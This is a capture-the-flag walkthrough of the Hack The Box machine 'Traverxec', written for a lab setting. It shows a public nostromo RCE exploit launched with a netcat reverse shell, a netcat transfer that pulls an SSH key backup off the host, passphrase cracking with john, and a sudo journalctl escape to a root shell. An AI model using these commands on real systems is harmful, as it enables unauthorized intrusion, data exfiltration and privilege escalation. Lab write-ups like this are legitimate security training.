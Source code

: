 # Traverxec

![Traverxec](../Images/htb_traverxec_1.png)

**Tools: nmap, ssh2john, john.**

We begin with the nmap scan:  
`nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.165`

![Traverxec](../Images/htb_traverxec_2.png)

With port 80 open, we check the webpage and run a fuzzer, but there's nothing useful to be found.
With the nmap scan we got the webserver name and version, so we can go straight to [exploit-db](https://www.exploit-db.com/) and search for nostromo 1.9.6:

![Traverxec](../Images/htb_traverxec_3.png)

We can download this RCE exploit. I had to edit it and comment (#) the line with cve2019_16278.py to make it work - it is required to inform the target's IP, port and then the command to execute (in this case, a netcat reverse shell). First start a netcat listening session, then in another terminal window run the exploit:  
```
nc -vnlp 9001  
python 47837.py 10.10.10.165 80 "nc -e sh 10.10.14.245 9001"  
(use your tun0 IP for the nc reverse shell)
```

![Traverxec](../Images/htb_traverxec_4.png)

![Traverxec](../Images/htb_traverxec_5.png)

Now we can spawn a fully interactive shell using python:  
`python -c 'import pty; pty.spawn("/bin/sh")'`

Enumeration begins, then '/etc/passwd' shows us a user 'david' and at '/var' we can see a 'nostromo' directory. Inside it there's a directory 'conf', that has this 'nhttpd.conf' file.

![Traverxec](../Images/htb_traverxec_6.png)

Reading this file reveals, under the 'HOMEDIRS' section, that inside the user's home directory there might be a public_www folder.  
We don't have permission to access /home/david but we can open /home/david/public_www, then get inside the protected-file-area directory.

![Traverxec](../Images/htb_traverxec_7.png)

Inside this folder there's a backup-ssh-identity-files.tgz file that we can download, extract and analyse in our machine.  
From the remote shell send the file through netcat, then catch it in your machine (remember to use your tun0 IP):  
```
nc 10.10.14.245 9002 < backup-ssh-identity-files.tgz  
nc -vnlp 9002 > backup-ssh-identity-files.tgz  
```

![Traverxec](../Images/htb_traverxec_8.png)

![Traverxec](../Images/htb_traverxec_9.png)

![Traverxec](../Images/htb_traverxec_10.png)

With the id_rsa (private key) we can try connecting to the box using SSH, but we're still required to provide a password. We can use ssh2john and then john to get the password.  
```
/usr/share/john/ssh2john.py id_rsa > hash  
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![Traverxec](../Images/htb_traverxec_11.png)

We get the password 'hunter'. Now we use SSH and grab the user flag.

![Traverxec](../Images/htb_traverxec_12.png)

Inside david's home directory we can see the 'bin' folder, and inside it the script 'server-stats.sh'.
Reading the script reveals us that journalctl ("an utility for querying and displaying logs from journald, systemd’s logging service") runs with sudo permissions, showing us the last 5 lines of the nostromo service logs.

![Traverxec](../Images/htb_traverxec_13.png)

Looking for a privesc at [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/#sudo), we have not only the technique, but also a quick explanation - journalctl invokes 'less', so we can use a command to spawn an interactive root shell from it:  
```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service  
!/bin/bash
```

![Traverxec](../Images/htb_traverxec_14.png)

And we have a root shell! Now just grab the root flag from /root.
